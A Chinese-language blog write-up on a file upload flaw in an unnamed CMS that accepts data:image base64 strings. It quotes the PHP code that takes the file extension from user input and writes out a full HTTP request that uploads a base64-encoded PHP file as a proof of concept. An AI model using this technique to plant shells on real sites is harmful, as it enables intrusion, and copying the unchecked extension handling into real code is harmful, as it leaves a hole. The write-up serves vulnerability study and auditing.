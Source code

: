 # 浅谈data:image格式文件上传

21年底和同学兼同事测试某个项目时，他曾问我图片上传时候数据包中以data:image格式来上传（读取）的，有没有什么方法上传shell呢，当时经验太少也没想出方法。

过了一年来回顾下这个问题，就以某CMS文件上传漏洞的源码为例分析一下。

## 代码逻辑

data:image能算作是一种编码格式，常用于图片的压缩，后面跟一串base64字符串。直接将data:image完整数据敲进浏览器栏里就能看到图片显示出来
[![pS3VEOe.png](https://s1.ax1x.com/2023/01/17/pS3VEOe.png)](https://imgse.com/i/pS3VEOe)

data:image格式的上传如果不严格校验文件后缀，会造成任意文件上传。以我之前审计的某CMS的文件上传漏洞为例，代码如下：
[![pS3VtTs.png](https://s1.ax1x.com/2023/01/17/pS3VtTs.png)](https://imgse.com/i/pS3VtTs)
src传入字符串，正则匹配两处字符串保存到matches数组中，第一处是格式，第二次是base64编码的数据

 - [ ] 代码
       
       preg_match("#^data:image/(\w+);base64,(.*)$#", $src, $matches)
       
       $base64 = $matches[2];
       
       $type = $matches[1];
       
       $filename = md5($base64).".$type";

最后保存预览文件到本地/preview目录下，文件名以md5格式进行命名，后缀为用户传入的后缀

因此可以构造如下数据包

 - [ ] 数据包
       
       POST /xxxx HTTP/1.1
       
       Host: xxxx
       
       Cache-Control: max-age=0
       
       Upgrade-Insecure-Requests: 1
       
       User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
       AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0
       Safari/537.36
       
       Accept:
       text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,_/_;q=0.8,application/signed-exchange;v=b3;q=0.9
       
       Accept-Encoding: gzip, deflate
       
       Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
       
       Cookie: PHPSESSID=0ufj3o7j0o7ovds8uuln7ho7m6
       
       Connection: close
       
       Content-Length: 46
       
       data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+

上传php格式base64编码的<?php phpinfo();?>进行验证

[![pS3V60J.png](https://s1.ax1x.com/2023/01/18/pS3V60J.png)](https://imgse.com/i/pS3V60J)
[![pS3Vym4.png](https://s1.ax1x.com/2023/01/18/pS3Vym4.png)](https://imgse.com/i/pS3Vym4)

## 知识星球推广
![image](https://github.com/youki992/youki992.github.io/blob/master/others/x.png)
